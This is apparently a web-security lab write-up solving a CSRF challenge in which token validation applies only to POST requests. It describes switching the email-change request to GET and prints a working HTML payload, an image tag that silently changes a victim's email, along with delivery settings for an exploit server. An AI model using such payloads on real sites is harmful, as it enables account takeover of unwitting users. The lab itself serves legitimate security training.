 ### Lab: CSRF where token validation depends on request method

This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

_____

Analysis and Exploit:

1. Logged-in as user _wiener_ and tested the 'change-email' functionality.  
On POST request the required parameters are _email_ (email address to set as the new email) and _csrf_ (which contains a random csrf token).

2. Through [BURP REPEATER] changed the request method from POST to GET and removed the _csrf_ parameter from the URL and it worked.
Since the CSRF protection for the funcionality is implemented only on requests made using the POST method, setting the new email using the GET method bypass the protection.

3. On exploit-server, stored and delivered the payload*:
```html
<html>
<body>
<img src="https://0a68008a048967758029fd920081006d.web-security-academy.net/my-account/change-email?email=victim%40gothacked" onerror=alert(1)>
</body>
</html>
```


_____

Script notes:

- 2 - Payload: **GET** /my-account/change-email?email=testgetmethod%40test 

- 3 - Store and deliver payload to victim, params:
    - urlIsHttps: on
    - responseFile: /exploit
    - responseHead: HTTP/1.1 200 OK Content-Type: text/html; charset=utf-8
    - responseBody: *
    - formAction: STORE | DELIVER_TO_VICTIM

